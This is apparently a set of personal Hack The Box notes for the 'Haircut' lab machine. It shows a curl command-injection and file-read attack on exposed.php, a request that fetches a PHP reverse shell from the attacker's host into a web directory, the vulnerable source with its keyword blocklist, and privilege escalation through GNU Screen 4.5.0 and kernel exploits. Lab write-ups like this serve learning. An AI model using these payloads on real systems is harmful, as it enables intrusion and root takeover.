


# Haircut
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e9:75:c1:e4:b3:63:3c:93:f2:c6:18:08:36:48:ce:36 (RSA)
|   256 87:00:ab:a9:8f:6f:4b:ba:fb:c6:7a:55:a8:60:b2:68 (ECDSA)
|_  256 b6:1b:5c:a9:26:5c:dc:61:b7:75:90:6c:88:51:6e:54 (ED25519)
80/tcp open  http    nginx 1.10.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.10.0 (Ubuntu)
|_http-title:  HTB Hairdresser 
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


http://10.10.10.24/exposed.php


```
POST /exposed.php HTTP/1.1
Host: 10.10.10.24
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 60
Origin: http://10.10.10.24
Connection: close
Referer: http://10.10.10.24/exposed.php
Upgrade-Insecure-Requests: 1

formurl=http%3a//10.10.14.17/php-reverse-shell.php&submit=Go
```

Does request, but does not execute php


formurl=test&submit=Go


curl: (6) Could not resolve host: test


## command injection

; is not a good thing to put in a URLnc is not a good thing to put in a URL

https://gtfobins.github.io/gtfobins/curl/#file-read

## Arbitrary file read

formurl=file:///etc/passwd&submit=Go


root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
lxd:x:106:65534::/var/lib/lxd/:/bin/false
messagebus:x:107:111::/var/run/dbus:/bin/false
uuidd:x:108:112::/run/uuidd:/bin/false
dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
maria:x:1000:1000:maria,,,:/home/maria:/bin/bash
mysql:x:110:117:MySQL Server,,,:/nonexistent:/bin/false
lightdm:x:111:118:Light Display Manager:/var/lib/lightdm:/bin/false
pulse:x:112:121:PulseAudio daemon,,,:/var/run/pulse:/bin/false
sshd:x:113:65534::/var/run/sshd:/usr/sbin/nologin


get current source

formurl=file:///var/www/html/exposed.php&submit=Go
```php
<?php 
    if(isset($_POST['formurl'])){
    echo "<p>Requesting Site...</p>"; 
    $userurl=$_POST['formurl'];
    $naughtyurl=0;
    $disallowed=array('%','!','|',';','python','nc','perl','bash','&','#','{','}','[',']');
    foreach($disallowed as $naughty){
        if(strpos($userurl,$naughty) !==false){
            echo $naughty.' is not a good thing to put in a URL';
            $naughtyurl=1;
        }
    }
    if($naughtyurl==0){
        echo shell_exec("curl ".$userurl." 2>&1"); 
    }
    }
?>
```


write files

formurl=http://10.10.14.17/php-reverse-shell.php -o /var/www/html/rev.php&submit=Go

Warning: Failed to create the file /var/www/html/rev.php: Permission denied


formurl=http%3a//10.10.14.17/php-reverse-shell.php+-o+/tmp/rev.php

works with /tmp


formurl=http%3a//10.10.14.17/php-reverse-shell.php+-o+/var/www/html/uploads/rev.php&submit=Go

works with /uploads

Shell!


## privilege escalation

nothing in /var/www/html


www-data@haircut:~$ find .
.
./html
./html/hair.html
./html/carrie.jpg
./html/test.html
./html/bounce.jpg
./html/sea.jpg
./html/index.html
./html/exposed.php
./html/uploads
./html/uploads/bounce.jpg
./html/uploads/rev.php


mysql is running
mysql     1186  0.0 15.4 1246912 156796 ?      Ssl  14:39   0:00 /usr/sbin/mysqld


/etc/crontab


/etc/cron.d:

-rw-r--r--   1 root root  190 May 15  2017 popularity-contest


uid=1000(maria) gid=1000(maria) groups=1000(maria),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)


maria has sudo and lxd

/usr/bin/screen-4.5.0


-rwsr-xr-x 1 root   root       1.6M May 19  2017 /usr/bin/screen-4.5.0                                                                                                                                                                                                                                                       
  --- It looks like /usr/bin/screen-4.5.0 is executing from and you can impersonate it (strings line: from wiH)                                                                                                                                                                                                              
  --- It looks like /usr/bin/screen-4.5.0 is executing /dev and you can impersonate it (strings line: /dev)                                                                                                                                                                                                                  
  --- It looks like /usr/bin/screen-4.5.0 is executing /dev/ and you can impersonate it (strings line: /dev/)                                                                                                                                                                                                                
  --- It looks like /usr/bin/screen-4.5.0 is executing /dev/console and you can impersonate it (strings line: /dev/console)                                                                                                                                                                                                  
  --- It looks like /usr/bin/screen-4.5.0 is executing /dev/null and you can impersonate it (strings line: /dev/null)                                                                                                                                                                                                        
  --- It looks like /usr/bin/screen-4.5.0 is executing /dev/ptmx and you can impersonate it (strings line: /dev/ptmx)                                                                                                                                                                                                        
  --- It looks like /usr/bin/screen-4.5.0 is executing /dev/tty and you can impersonate it (strings line: /dev/tty)                                                                                                                                                                                                          
  --- It looks like /usr/bin/screen-4.5.0 is executing /tmp/screens and you can impersonate it (strings line: /tmp/screens)                                                                                                                                                                                                  
  --- It looks like /usr/bin/screen-4.5.0 is executing /usr/include and you can impersonate it (strings line: /usr/include)                                                                                                                                                                                                  
  --- It looks like /usr/bin/screen-4.5.0 is executing /usr/include/netinet and you can impersonate it (strings line: /usr/include/netinet)                                                                                                                                                                                  
  --- It looks like /usr/bin/screen-4.5.0 is executing /usr/include/x86_64-linux-gnu/bits and you can impersonate it (strings line: /usr/include/x86_64-linux-gnu/bits)                                                                                                                                                      
  --- It looks like /usr/bin/screen-4.5.0 is executing /usr/include/x86_64-linux-gnu/sys and you can impersonate it (strings line: /usr/include/x86_64-linux-gnu/sys)                                                                                                                                                        
  --- It looks like /usr/bin/screen-4.5.0 is executing /usr/lib/gcc/x86_64-linux-gnu/5/include and you can impersonate it (strings line: /usr/lib/gcc/x86_64-linux-gnu/5/include)                                                                                                                                            
  --- It looks like /usr/bin/screen-4.5.0 is executing /usr/local/bin/screen and you can impersonate it (strings line: /usr/local/bin/screen)                                                                                                                                                                                
  --- It looks like /usr/bin/screen-4.5.0 is executing /usr/share/screen/utf8encodings and you can impersonate it (strings line: /usr/share/screen/utf8encodings)                                                                                                                                                            
  --- It looks like /usr/bin/screen-4.5.0 is executing chacl and you can impersonate it (strings line: chacl)                                                                                                                                                                                                                
  --- It looks like /usr/bin/screen-4.5.0 is executing chmod and you can impersonate it (strings line: chmod)                                                                                                                                                                                                                
  --- It looks like /usr/bin/screen-4.5.0 is executing chmod and you can impersonate it (strings line: chmod )                                                                                                                                                                                                               
  --- It looks like /usr/bin/screen-4.5.0 is executing chmod and you can impersonate it (strings line: chmod tty)                                                                                                                                                                                                            
  --- It looks like /usr/bin/screen-4.5.0 is executing chown and you can impersonate it (strings line: chown)                                                                                                                                                                                                                
  --- It looks like /usr/bin/screen-4.5.0 is executing chown and you can impersonate it (strings line: chown tty)                                                                                                                                                                                                            
  --- It looks like /usr/bin/screen-4.5.0 is executing clear and you can impersonate it (strings line: clear)                                                                                                                                                                                                                
  --- It looks like /usr/bin/screen-4.5.0 is executing comm and you can impersonate it (strings line: comm)                                                                                                                                                                                                                  
  --- It looks like /usr/bin/screen-4.5.0 is executing diff and you can impersonate it (strings line: diff)                                                                                                                                                                                                                  
  --- It looks like /usr/bin/screen-4.5.0 is executing from and you can impersonate it (strings line: from)                                                                                                                                                                                                                  
  --- It looks like /usr/bin/screen-4.5.0 is executing mkdir and you can impersonate it (strings line: mkdir)                                                                                                                                                                                                                
  --- It looks like /usr/bin/screen-4.5.0 is executing realpath and you can impersonate it (strings line: realpath)                                                                                                                                                                                                          
  --- It looks like /usr/bin/screen-4.5.0 is executing rename and you can impersonate it (strings line: rename)                                                                                                                                                                                                              
  --- It looks like /usr/bin/screen-4.5.0 is executing reset and you can impersonate it (strings line: reset)                                                                                                                                                                                                                
  --- It looks like /usr/bin/screen-4.5.0 is executing screen and you can impersonate it (strings line: screen)                                                                                                                                                                                                              
  --- It looks like /usr/bin/screen-4.5.0 is executing screen and you can impersonate it (strings line: screen )                                                                                                                                                                                                             
  --- It looks like /usr/bin/screen-4.5.0 is executing setsid and you can impersonate it (strings line: setsid)                                                                                                                                                                                                              
  --- It looks like /usr/bin/screen-4.5.0 is executing sleep and you can impersonate it (strings line: sleep)                                                                                                                                                                                                                
  --- It looks like /usr/bin/screen-4.5.0 is executing sort and you can impersonate it (strings line: sort)                                                                                                                                                                                                                  
  --- It looks like /usr/bin/screen-4.5.0 is executing stat and you can impersonate it (strings line: stat)                                                                                                                                                                                                                  
  --- It looks like /usr/bin/screen-4.5.0 is executing stat and you can impersonate it (strings line: stat )                                                                                                                                                                                                                 
  --- It looks like /usr/bin/screen-4.5.0 is executing telnet and you can impersonate it (strings line: telnet)                                                                                                                                                                                                              
  --- It looks like /usr/bin/screen-4.5.0 is executing time and you can impersonate it (strings line: time)
  --- It looks like /usr/bin/screen-4.5.0 is executing uname and you can impersonate it (strings line: uname)
  --- It looks like /usr/bin/screen-4.5.0 is executing unlink and you can impersonate it (strings line: unlink)
  --- It looks like /usr/bin/screen-4.5.0 is executing users and you can impersonate it (strings line: users)
  --- It looks like /usr/bin/screen-4.5.0 is executing wall and you can impersonate it (strings line: wall)
  --- Trying to execute /usr/bin/screen-4.5.0 with strace in order to look for hijackable libraries...
access("/etc/suid-debug", F_OK)         = -1 ENOENT (No such file or directory)
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)
open("/etc/ld.so.cache", O_RDONLY|O_CLOEXEC) = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/x86_64-linux-gnu/libtinfo.so.5", O_RDONLY|O_CLOEXEC) = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/x86_64-linux-gnu/libcrypt.so.1", O_RDONLY|O_CLOEXEC) = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/x86_64-linux-gnu/libc.so.6", O_RDONLY|O_CLOEXEC) = 3
access("/var/www/.nethackrc", F_OK)     = -1 ENOENT (No such file or directory)
open("/proc/self/loginuid", O_RDONLY)   = 3
connect(3, {sa_family=AF_LOCAL, sun_path="/var/run/nscd/socket"}, 110) = -1 ENOENT (No such file or directory)
connect(3, {sa_family=AF_LOCAL, sun_path="/var/run/nscd/socket"}, 110) = -1 ENOENT (No such file or directory)
open("/etc/nsswitch.conf", O_RDONLY|O_CLOEXEC) = 3
open("/etc/ld.so.cache", O_RDONLY|O_CLOEXEC) = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/x86_64-linux-gnu/libnss_compat.so.2", O_RDONLY|O_CLOEXEC) = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/x86_64-linux-gnu/libnsl.so.1", O_RDONLY|O_CLOEXEC) = 3
open("/etc/ld.so.cache", O_RDONLY|O_CLOEXEC) = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/x86_64-linux-gnu/libnss_nis.so.2", O_RDONLY|O_CLOEXEC) = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)


www-data@haircut:/dev/shm$ screen -r
Please set a terminal type.
www-data@haircut:/dev/shm$ export TERM='vt100'
www-data@haircut:/dev/shm$ screen -r
There is no screen to be resumed.


kali@kali:~/htb/boxes/Haircut/10.10.10.24$ searchsploit screen 4.5
---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                              |  Path
---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
GNU Screen 4.5.0 - Local Privilege Escalation                                                                               | linux/local/41154.sh
GNU Screen 4.5.0 - Local Privilege Escalation (PoC)                                                                         | linux/local/41152.txt
---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results


replaced lines

/usr/bin/screen-4.5.0 -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed
echo "[+] Triggering..."
/usr/bin/screen-4.5.0 -ls # screen itself is setuid, so... 


gcc: error trying to exec 'cc1': execvp: No such file or directory


Linux Kernel < 4.13.9 (Ubuntu 16.04 / Fedora 27) - Local Privilege Escalation                                               | linux/local/45010.c


gcc 45010.c -o 45010
could not compile on victim, needed to compile on host


